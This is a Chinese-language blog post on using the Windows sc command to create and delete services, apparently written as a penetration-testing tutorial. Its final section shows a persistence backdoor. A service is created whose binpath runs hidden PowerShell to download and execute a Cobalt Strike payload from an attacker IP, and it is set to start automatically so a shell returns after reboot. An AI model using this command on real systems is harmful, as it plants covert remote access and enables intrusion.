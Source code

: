 # Windows sc命令与权限维持


`sc`命令用来创建和删除windows服务

#### 使用SC命令创建windows服务

**命令格式：**

```bash
sc [servername] create Servicename [Optionname= Optionvalues]
```

```bash
# servername
可选，可以使用双斜线，如\\\\myserver，也可以是\\\\192.168.0.1来操作远程计算机。如果在本地计算机上操作就不用添加任何参数。

# Servicename
在注册表中为service key制定的名称。注意这个名称是不同于显示名称的（这个名称可以用net start和服务控制面板看到），而SC是使用服务键名来鉴别服务的。

# Optionname
这个optionname和optionvalues参数允许你指定操作命令参数的名称和数值。注意，这一点很重要在操作名称和等号之间是没有空格的。
如果你想要看每个命令的可以用的optionvalues，你可以使用sc command这样的格式。这会为你提供详细的帮助。

# Optionvalues
为optionname的参数的名称指定它的数值。有效数值范围常常限制于哪一个参数的optionname。如果要列表请用sc command来询问每个命令。
```



示例：

```bash
sc create svnservice binpath= "\"D:\Servers\Subversion\bin\svnserve.exe\" --service -r E:\SVN\repository" displayname= "SVNService" depend= Tcpip start= auto  

```

注意：

1. 在`option= xxxxx`格式中，`=`号和后面的内容一定要有空格，如`depend=  Tcpip`

2. 如果命令中的需要进行双引号的嵌套，使用反斜杠加引号 `\"`来进行转义处理。



#### 使用SC命令删除windows服务

从注册表中删除服务子项。如果服务正在运行或者另一个进程有一个该服务的打开句柄，那么此服务将标记为删除。

语法：

```bash
sc [ServerName] delete [ServiceName] 
```

示例：

```bash
sc delete svnservice
```





#### 服务自启动后门

这里使用Cobalt Strike生成了一个powershell的下载后门的payload（菜单栏，Attacks-->Web Drive

-by-->Scaripted Web Delivery，生成powershell后门）

```bash
sc create "Name" binpath= "cmd /c start powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://192.168.28.142:8080/a'))\"" 

sc description Name "Just For Test" # 设置服务的描述字符串 
sc config Name start= auto	 # 设置这个服务为自动启动 
net start Name ``# 启动服务

# 重启服务器后，成功返回一个shell
```



---

> 作者: [剑胆琴心](http://geoer.cn)  
> URL: https://shuai06.github.io/windows-sc%E5%91%BD%E4%BB%A4/  

